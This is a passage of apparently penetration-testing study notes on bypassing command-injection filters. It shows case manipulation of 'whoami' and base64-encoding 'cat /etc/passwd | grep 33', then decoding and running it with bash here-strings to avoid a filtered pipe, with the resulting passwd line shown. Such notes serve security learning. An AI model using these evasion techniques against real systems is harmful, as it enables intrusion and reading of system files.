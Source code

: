 basewe can use case manipulation to obfuscate our command: 

whoami -> wHoAMi

-----
## Encoded Commands

we can encode our commands and use a bash decoding command to execute them: 

```shell-session
echo -n 'cat /etc/passwd | grep 33' | base64
```

```shell-session
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

`` Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.

